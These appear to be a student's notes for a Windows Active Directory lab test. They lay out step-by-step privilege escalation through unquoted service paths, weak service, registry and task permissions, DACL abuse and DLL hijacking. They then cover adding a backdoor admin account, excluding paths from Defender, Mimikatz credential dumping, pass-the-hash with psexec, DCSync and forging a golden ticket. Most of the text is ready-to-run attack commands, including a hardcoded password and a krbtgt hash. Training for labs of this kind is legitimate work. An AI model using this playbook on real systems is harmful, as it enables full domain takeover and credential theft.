 >>> general

info: within the notes there are some instructions on how to make certain files, but they can just be downloaded from the repository :)

1) orientation
> ip's and names (hostname, dc-name, etc.) might be outdated for skills test
> use angry ip scanner if available
> look for services without description
> look for services with unquoted service paths
> look for services running as a named user account
> check "C:\Windows\Tasks Migrated" for weakly named tasks (single word names)
> check "\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc" (imagepath edit)
> use -> accesschk -uwvc "normaluser" * <- (daclsvc)

2) files to download
> sysinternals suite > https://download.sysinternals.com/files/SysinternalsSuite.zip
> mimikatz > https://github.com/gentilkiwi/mimikatz
// > mike's dll + C code from OneDrive (if dll hijack)
// > bat2exe > https://github.com/islamadel/bat2exe/releases/download/2.1/bat2exe.exe

3) commands
> whoami (check current user in terminal)
> dir (list directory contents)
> net user (see users on machine)
> hostname (local domain name)
> echo %logonserver% (domain controller name)
> echo %path% (check path variables for dll hijack)

4) add user command
> net user Helpdesk L3tm3!n /add && net localgroup administrators Helpdesk /add

__________________________________________________________________________________________
__________________________________________________________________________________________
__________________________________________________________________________________________


>>> privilege escalation methods

1) remote mouse // not gonna be in the test (confirmed)
// > click on green icon bottom right
// > settings
// > under image transfer folder click "Change..."
// > click OK if prompted with error
// > go to C:\Windows\System32 and type "cmd"
// > right click cmd -> open (opens system cmd)
// > [add user command]

2) unquoted service path
> open services
> sort by description, so services without a description appear on top
> check if "path to executable:" has spaces and no quotes
> example -> C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
> look for writable directory, for example C:\Program Files\Unquoted Path Service
> services always expect an executable (.exe)
> create folder on desktop
> create batch file (.bat) with "[add user command]"
> place batch file inside folder
> use bat2exe on that folder (run bat2exe from cmd)
> rename to common.exe (for this example ofc)
> place exe in C:\Program Files\Unquoted Path Service
> run service
> net user in cmd to check if user is added
> if not, restart machine, run service and check again
> if you have executable rights, maybe run exe from cmd, who knows

3) weak file permission services
> example from lab: C:\Program Files\File Permissions Service\filepermservice.exe
> "filepermservice.exe" can be renamed
> check steps above to make own exe
> place exe inside C:\Program Files\File Permissions Service
> rename old .exe to whatever
> name your own exe to "filepermservice.exe"
> start service
> net user in cmd to check if user is added

4) weak registry permissions (regsvc)
> open registry editor
> go to \HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc
> right click on imagepath -> select modify
> edit the value data so it points to an exe you control, or
> with bat2exe you can make a .exe that that adds an administrative user (see the notes above)
> open services
> look for the service that has the modified image path as the "path to executable"
> run the service

5) scheduled task
> "C:\Windows\Tasks Migrated" may contain tasks you can exploit / configure
> example from lab: pinger
> "C:\Windows\Tasks Migrated" contained the task "pinger"
> open task scheduler
> the "tasks migrated" folder shouldn't be in the folder tree
> go to action -> import task
> select "all files" on bottom right
> navigate to "C:\Windows\Tasks Migrated"
> open "pinger" or whatever task looks weak (only one word for example)
> go to triggers and see what triggers it
> go to action to see what it does and what file it triggers (.bat for example)
> check if the file is renamable and if the directory is writable
> rename the file to whatever
> place your own file (add administrative user through a batch file)

> open task in notepad (easier method than opening in task scheduler)

6) DACL service
> go to services
> check if there is a dacl service (daclsvc)
> open cmd
> go to where you stored your sysinternals
> accesschk -uwvc "normaluser" *
> it might say "RW daclsvc" (should mean you have read/write rights for the service actions listed)
> sc config daclsvc binpath="cmd /c cmd.exe /c net user Helpdesk L3tm3!n /add && net localgroup administrators Helpdesk /add"
> run the service
> might have to do the sc command multiple times and run the service again

7) dll hijack
> last resort for privilege escalation
> go to services
> there may be a service that indicates a dll hijack
> go to the properties of the service to see the path and name of the .exe it calls
> copy the .exe to your own machine (drag n drop or shared folder)
> open cmd on own machine
> sc create ServiceName binPath= "C:\temp\name.exe" (insert name of .exe)
> run service you made
> open procmon (from sysinternals) on own machine
> click on filter icon (ctrl+L) and add the following 2 filters:
> [result] [is] [NAME NOT FOUND] -> click add
> [path] [ends with] [.dll] -> click add
> click ok
> click on process name to sort
> if the .exe and its dll have multiple entries (like 5+), the %path% variable might be used
> note down the name of the dll
> go back to the VM and open cmd
> echo %path%
> look if there is a writable directory listed (like C:\temp)
> go back to own machine
> download Mike's dll + C code from OneDrive if not done yet
> note down the the fake admin credentials after opening his C code in notepad
> rename dll to the name you noted down earlier
> copy dll to the VM
> place dll inside the directory you found in %path%
> run service
> net user in cmd to check if it worked

__________________________________________________________________________________________
__________________________________________________________________________________________
__________________________________________________________________________________________


>>> static steps after local priv escalation

1) defender exclusion:
> defender icon on bottom right (or type virus and threat protection in search)
> virus and threat protection
> manage settings
> add or remove exclusions
> use fake admin login (".\" for local account)
> add exclusion (folder)
> select c drive

2) download mimikatz/sysinternals
> store in c:\temp for easy access
> same with sysinternals suite

3) administrator hash
> open cmd with fake admin
> cd C:\temp\mimikatz_trunk\x64
> mimikatz
> privilege::debug
> sekurlsa::logonpasswords
> copy ntlm hash from administrator (session:service from 0)

4) priv escalation
> sekurlsa::pth /user:administrator /domain:win10client /ntlm:hash
> dir \\192.168.56.30\c$ (to double check privilege)
> cd C:\temp\SysinternalsSuite
> psexec -r name \\192.168.56.30 cmd

5) admin machine
> whoami (should be administrator)
> cd C:\
> md temp (create temp dir)
> dir (check if temp directory was created
> powershell
> set-mppreference -exclusionpath C:\temp
> (get-mppreference).exclusionpath -> checks the exluded paths
> exit (exits out of PS)
> cd temp
> type "mimikatz" (do not run yet)

6) copying mimikatz to admin machine
> go to original mimikatz cmd (or open new one)
> sekurlsa::pth /user:administrator /domain:win10client /ntlm:hash
> in the new cmd window
> net use x: \\192.168.56.30\c$
> x:
> cd temp
> get ready to switch to admin window from step 5
> copy C:\temp\mimikatz_trunk\x64\*.* .
> immediately run mimikatz on admin machine
> successful if mimikatz is visible on admin machine

7) grab domain admin hash
> privilege::debug
> sekurlsa::logonpasswords
> copy domain admin hash (should be the first one)
> let teacher know if domain admin (domad) doesn't show up

8) dcsync on domain controller
> close both admin cmd windows (you dont need them anymore)
> go to original mimikatz cmd (or open new one)
> sekurlsa::pth /user:domad /domain:adlab.local ntlm:hash
> dir \\192.168.56.10\c$
> cd C:\temp\SysinternalsSuite
> mimikatz
> privilege::debug
> lsadump::dcsync /domain:adlab.local /all /csv
> copy krbtgt

9) golden ticket
> open a normal cmd windows
> whoami /user - copy everyting except last 4 digits
> go to mimikatz
> kerberos::golden /domain:adlab.local /sid:S-1-5-21-3704816349-2630934885-840893638 /rc4:cc326e8519157da4bf8ef543b8680dc3 /user:abcdef /id:500 /ptt

> or.. save for later
> kerberos::golden /domain:adlab.local /sid:S-1-5-21-3704816349-2630934885-840893638 /rc4:cc326e8519157da4bf8ef543b8680dc3 /user:abcdef /id:500 /ptt
> kerberos::ptt ticket.kirbi
> misc::cmd

> dir \\win2019dc\c$
